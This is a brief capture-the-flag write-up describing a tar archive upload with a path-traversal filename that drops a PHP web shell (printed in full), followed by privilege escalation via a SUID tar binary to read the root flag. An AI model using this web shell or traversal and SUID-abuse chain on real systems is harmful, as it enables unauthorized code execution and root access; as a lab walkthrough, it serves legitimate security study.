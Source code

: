 # Writeup

Upload a .tar.gz file (name can be arbitrary) which contains a file used for path traversal.
There are several ways to do it, one way would be to call the file `../../var/www/html/databases/[actual_file_name]`
to upload to the databases folder. The content of the file could be a reverse or web shell, the more comfortable
way would be to use web shell like this: 

```php
<?php
echo shell_exec($_GET['cmd']);
?> 
```

The final step is to escalte privileges - a simple `find / -perm -4000` should reveal that the `tar-binary` has the 
suid bit set. Gtfobins will help in that case.
I used `cd /tmp && tar czvf t /root/flag.txt && tar xzvf t && cat ./root/flag.txt` which is not the way gtfobins
would read files but works nonetheless.%        
